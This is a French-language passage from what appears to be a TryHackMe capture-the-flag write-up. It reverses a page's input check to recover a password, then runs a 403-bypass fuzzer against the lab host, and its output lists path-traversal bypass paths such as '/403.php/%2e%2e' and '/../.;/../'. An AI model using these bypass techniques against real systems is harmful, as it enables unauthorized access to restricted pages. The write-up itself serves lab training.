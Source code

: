 Dans le code source de la page on trouve comment il vérifie les données saisies.   

le programme vérifie que la saisie de contient pas de lettre et de chiffre, qu'il soit séparé par une virgule.   
La longueur de la chaîne situé à l'index 0 soit de longueur 2 et celle de à l'index 8 de longueur 3.  
La valeur à l'index 5 ne doit être la même que l'index 8 et la valeur de l'index 3 ne doit pas être la même que l'index 7.  
Puis il fait le somme de nombre fois que la condition est bonne.   

On fait une chaîne qui combine les exigences qui est : !@,!@,!@,!@%,!@,!@,!%@,!@#,!@&,!@  

![page4](./Task1-04.png)

On mettant notre chaîne on trouve un mot passe qui est : cimihan_are_you_here?   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ chmod 700 key 
```

On met les bons droit sur key.   

On trouve un autre page avec le lien 403.php.   

```bash
im@kali:~/Bureau/tryhackme/write-up$ git clone https://github.com/timruff/403fuzzer
Clonage dans '403fuzzer'...
remote: Enumerating objects: 78, done.
remote: Counting objects: 100% (78/78), done.
remote: Compressing objects: 100% (72/72), done.
remote: Total 78 (delta 25), reused 11 (delta 4), pack-reused 0

Réception d'objets: 100% (78/78), 21.43 Kio | 1.79 Mio/s, fait.
Résolution des deltas: 100% (25/25), fait.
tim@kali:~/Bureau/tryhackme/write-up$ cd 403fuzzer/
tim@kali:~/Bureau/tryhackme/write-up/403fuzzer$ python 403fuzzer.py -u http://enpass.thm:8001/403.php | grep 200
Response Code: 200	Length: 2563	Path: /
Response Code: 200	Length: 2563	Path: /
Response Code: 200	Length: 2563	Path: /
Response Code: 200	Length: 2563	Path: /403.php/%2e%2e
Response Code: 200	Length: 2563	Path: /403.php/%2e%2e/
Response Code: 200	Length: 2563	Path: /403.php/..
Response Code: 200	Length: 2563	Path: /403.php/../
Response Code: 200	Length: 2563	Path: /403.php/../../..//
Response Code: 200	Length: 2563	Path: /403.php/../..//
Response Code: 200	Length: 2563	Path: /403.php/../.;/../
Response Code: 200	Length: 2563	Path: /403.php/..//
```
